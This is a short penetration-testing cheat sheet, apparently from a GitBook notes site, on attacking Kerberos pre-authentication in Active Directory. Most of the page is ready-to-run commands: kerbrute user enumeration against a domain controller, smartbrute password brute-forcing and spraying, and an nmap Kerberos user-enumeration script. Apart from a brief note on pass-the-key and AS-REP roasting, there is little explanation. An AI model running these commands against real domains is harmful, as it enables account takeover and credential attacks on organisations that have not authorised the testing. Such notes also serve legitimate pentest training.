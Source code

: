 # Pre-authentication Kerberos

## Objectives

* Bruteforce accounts
* Password Spraying
* Bruteforce single user
* Enumerate user

Pre-authentication (AS-REQ) is possible on all accounts that do not have this checkbox unchecked : \
![](<../.gitbook/assets/image (7).png>)



In Pre-authentication, the user does not supply its password but a secret which is derivated from its password (DES, RC4, AES128 or AES256).

If we know the derivated secret, we don't need to know the password to achieve pre-auth (pass-the-key).

If pre-authentication is disabled, AS-REP Roasting is possible.

## Kerbrute (go)

```
sudo git clone https://github.com/ropnop/kerbrute.git
ls dist/
./kerbrute_linux_amd64 
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
kerbrute userenum -d corp.com --dc 192.168.152.70 /opt/seclists/Usernames/xato-net-10-million-usernames.txt -o valid_ad_users

```

## Alternative : Smartbrute (Python)

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN

# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos// Some code
```

## Nmap

```
nmap -p 88 --script="krb5-enum-users" --script-args="krb5-enum-users.realm='$DOMAIN',userdb=$WORDLIST" $IP_DC

```



